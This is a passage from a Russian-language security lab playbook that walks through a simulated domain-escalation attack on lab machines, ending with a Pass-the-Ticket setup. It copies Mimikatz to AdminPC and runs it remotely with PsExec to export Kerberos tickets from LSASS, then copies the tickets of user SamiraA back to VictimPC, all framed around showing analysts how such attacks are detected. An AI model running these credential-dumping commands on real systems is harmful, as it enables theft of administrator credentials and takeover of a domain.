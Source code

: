 ![Просмотр обнаружения на временной шкале логических действий](media/playbook-lateral-opthlogicalactivity.png)

В Центре операций безопасности наш аналитик по безопасности узнает о скомпрометированных учетных данных и может быстро выяснить, для доступа к каким ресурсам они использовались.

## <a name="domain-escalation"></a>Эскалация домена

В результате нашей симулированной атаки мы получаем не только доступ к AdminPC, но также и права администратора на этом компьютере. Теперь мы можем выполнить боковое смещение к AdminPC и получить больше учетных данных.

Здесь мы выполним следующее:

- Установим инструмент Mimikatz на компьютере AdminPC.
- Получим билеты на компьютере AdminPC.
- Выполним атаку Pass-the-Ticket, чтобы получить учетные данные SamiraA.

### <a name="pass-the-ticket"></a>Pass-the-Ticket;

Из командной строки, запущенной в контексте *RonHD* на компьютере **VictimPC** , перейдите в расположение, где находятся наши инструменты для атаки. Затем выполните команду *xcopy* , чтобы переместить эти инструменты на компьютер AdminPC:

```dos
xcopy mimikatz.exe \\adminpc\c$\temp
```

При появлении запроса нажмите клавишу `d`, чтобы указать, что папка temp является каталогом на компьютере AdminPC.

![Копирование файлов на компьютер AdminPC](media/playbook-escalation-xcopy1.png)

### <a name="mimikatz-sekurlsatickets"></a>Mimikatz sekurlsa::tickets

Разместив Mimikatz на компьютере AdminPC, мы используем PsExec, чтобы выполнить команду удаленно.

1. Перейдите в расположение, где находится PsExec, и выполните следующую команду:

    ```dos
    PsExec.exe \\AdminPC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
    ```

    Эта команда выполнит и экспортирует билеты, найденные в процессе LSASS.exe, и поместит их в текущий каталог на компьютере AdminPC.

1. Нам нужно скопировать билеты обратно на VictimPC с AdminPC. Так как в этом примере нас интересуют только билеты SamiraA, выполните следующую команду:

    ```dos
    xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
    ```

    ![Экспорт полученных учетных данных с AdminPC обратно на VictimPC](media/playbook-escalation-export_tickets2.png)
